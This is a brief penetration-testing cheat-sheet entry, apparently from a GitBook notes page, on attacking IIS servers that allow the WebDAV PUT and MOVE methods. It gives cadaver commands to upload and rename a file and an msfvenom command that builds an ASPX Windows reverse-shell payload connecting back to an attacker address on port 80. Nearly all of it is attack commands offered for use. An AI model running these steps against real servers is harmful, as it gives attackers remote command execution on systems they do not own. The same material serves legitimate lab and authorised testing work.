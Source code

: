 # IIS

If HTTP methods such as PUT and MOVE are allowed, we can use cadaver to upload a file and rename it

{% code overflow="wrap" %}
```bash
cadaver $HOSTNAME
put $FILE
move $FILE
# We can use more HTTP methods but these are important for exploiting.

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.0 LPORT=80 -f aspx -o reverse.aspx
```
{% endcode %}
